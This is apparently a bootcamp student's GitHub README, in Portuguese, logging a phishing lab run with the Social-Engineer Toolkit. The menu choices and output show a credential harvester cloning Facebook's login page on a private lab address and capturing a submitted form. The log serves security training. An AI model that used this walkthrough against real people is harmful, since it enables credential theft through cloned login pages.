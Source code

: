 # santanderbootcamp
Envio de atividades do bootcamp da santnader

Segue o que esteve no meu terminal durante a atividade de phishing

01011001011011110111010100100000011100
         10011001010110000101101100011011000111
         10010010000001101000011000010111011001
         10010100100000011101000110111100100000
         01101101011101010110001101101000001000
         00011101000110100101101101011001010010
         00000110111101101110001000000111100101
         10111101110101011100100010000001101000
         01100001011011100110010001110011001000
         00001110100010110100101001001000000101
         01000110100001100001011011100110101101
         11001100100000011001100110111101110010
         00100000011101010111001101101001011011
         10011001110010000001110100011010000110
         01010010000001010011011011110110001101
         10100101100001011011000010110101000101
         01101110011001110110100101101110011001
         01011001010111001000100000010101000110
         11110110111101101100011010110110100101
         11010000100000001010100110100001110101
         011001110111001100101010

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 2

The Web Attack module is a unique way of utilizing multiple web-based attacks in order to compromise the intended victim.

The Java Applet Attack method will spoof a Java Certificate and deliver a Metasploit-based payload. Uses a customized java applet created by Thomas Werth to deliver the payload.

The Metasploit Browser Exploit method will utilize select Metasploit browser exploits through an iframe and deliver a Metasploit payload.

The Credential Harvester method will utilize web cloning of a web- site that has a username and password field and harvest all the information posted to the website.

The TabNabbing method will wait for a user to move to a different tab, then refresh the page to something different.

The Web-Jacking Attack method was introduced by white_sheep, emgent. This method utilizes iframe replacements to make the highlighted URL link to appear legitimate however when clicked a window pops up then is replaced with the malicious link. You can edit the link replacement settings in the set_config if it's too slow/fast.

The Multi-Attack method will add a combination of attacks through the web attack menu. For example, you can utilize the Java Applet, Metasploit Browser, Credential Harvester/Tabnabbing all at once to see which is successful.

The HTA Attack method will allow you to clone a site and perform PowerShell injection through HTA files which can be used for Windows-based PowerShell exploitation through the browser.

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report

-------------------------------------------------------------------------------
--- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

The way that this works is by cloning a site and looking for form fields to
rewrite. If the POST fields are not usual methods for posting forms this 
could fail. If it does, you can always save the HTML, rewrite the forms to
be standard forms and use the "IMPORT" feature. Additionally, really 
important:

If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
IP address below, not your NAT address. Additionally, if you don't know
basic networking concepts, and you have a private IP address, you will
need to do port forwarding to your NAT IP address from your external IP
address. A browser doesn’t know how to communicate with a private IP
address, so if you don't specify an external IP address if you are using
this from an external perspective, it will not work. This isn't a SET issue
this is how networking works.

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.221.128]: 
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: http://www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php                                                      
[*] This could take a little bit...                                                                                

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                                     
[*] Information will be displayed to you as it arrives below:                                                      
192.168.221.128 - - [15/Jan/2025 22:31:14] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: -----------------------------149943779113474047643807462260     


